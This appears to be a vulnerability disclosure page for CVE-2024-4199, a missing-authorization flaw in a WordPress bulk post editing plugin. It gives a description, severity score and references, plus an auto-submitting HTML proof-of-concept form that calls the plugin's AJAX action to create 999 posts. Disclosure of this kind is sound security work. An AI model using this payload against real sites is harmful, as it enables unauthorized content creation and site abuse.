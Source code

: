 ```yaml
---
layout: page
title: CVE-2024-4199
subtitle: Bulk Posts Editing For WordPress <= 4.2.3 - Authenticated (Subscriber+) Missing Authorization
---
```

## Description
The Bulk Posts Editing For WordPress plugin for WordPress is vulnerable to unauthorized access of functionality due to a missing capability check on the plugin's AJAX actions in all versions up to, and including, 4.2.3. This makes it possible for authenticated attackers, with subscriber access and higher, to invoke their corresponding functions. This may lead to post creation and duplication, post content retrieval, post taxonomy manipulation.

## Severity
 4.3 (Medium) [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.2.3

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / aillesim -->
  <body>
    <form action="[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wpbel&#95;create&#95;new&#95;post" />
      <input type="hidden" name="count" value="999" />
      <input type="hidden" name="post&#95;type" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/ithemeland-bulk-posts-editing-lite/bulk-posts-editing-for-wordpress-423-authenticated-subscriber-missing-authorization
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3085134%40ithemeland-bulk-posts-editing-lite%2Ftrunk&old=2946926%40ithemeland-bulk-posts-editing-lite%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4199







